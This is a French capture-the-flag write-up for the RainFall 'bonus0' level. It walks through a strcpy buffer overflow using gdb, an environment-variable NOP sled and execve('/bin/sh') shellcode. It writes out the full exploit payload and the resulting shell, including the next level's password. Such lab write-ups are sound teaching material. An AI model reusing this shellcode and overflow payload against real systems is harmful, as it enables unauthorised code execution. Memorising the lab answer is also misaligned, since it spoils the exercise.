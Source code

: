 # Bonus 0

En ouvrant le programme dans cuter on ce rend compte qu'il y a 2 fonction `p` et `pp` le programe attend 2 chaine de caractere en parametre qu'il concate, on remarque egalement qu'il ya un `strcpy` qu'on pout tenter d'overflow.
Le programe ne contient pas de `cat .pass` ou de `/bin/sh` il va donc faloir utiliser un shellcode vu precedament 
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```
La premiere chose a faire est donc de chercher un `segfault` pour ce faire nous allons utiliser un buffer overflow generator comme dans l'exercice 2 https://wiremask.eu/tools/buffer-overflow-pattern-generator/ 
```
(gdb) run 
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
(gdb) 
```
En entrant `0x41336141` dans le générateur on trouve un offset de 9 octet, en testant on ce rend compte que c'est la 2nd chaine qui `segfault`. Etant donner que le buffer est trop petit pour y mettre le payload il va faloir creer une variable d'environement que nous allons remeplire ed `\90` qui est  l'opperateur logique de NOP 
```
bonus0@RainFall:~$ export payload=$(python -c 'print "\x90"*500+"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```
et on vas aller chercher dans le programe une addresse du nopslid de notre variable d'environement, qui vas executer des NOP jusqu'a ce qu'il arrive a notre shellcode
```
bonus0@RainFall:~$ gdb ./bonus0 
gdb) b main 
Breakpoint 1 at 0x80485a7
(gdb) run 
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/200s environ 
[...]
0xbffffc92:      "payload=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffffd5a:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\
---Type <return> to continue, or q <return> to quit---
20\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffffe22:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
0xbffffea4:      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
[...]
```
On trouve que le read utiliser un peu plus tard, a une size de 4096 (0x1000), et on ajoute des caracteres en plus pour atteindre la limite du buffer. Il faut ajouter un \n pour separer nos deux entrees, on le met alors a limite du buffer utiliser par le read (a * 4095) + '\n' + (a* 9) + L'adresse du nopesled
```
bonus0@RainFall:~$ python -c 'print "a" * 4095+"\n"+ "a"*9+"\x5a\xfd\xff\xbf" + "a"*30' > /tmp/payload1 
bonus0@RainFall:~$ cat /tmp/payload1 - | ./bonus0 
 - 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaZ���aaaaaaa��� aaaaaaaaaZ���aaaaaaa���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

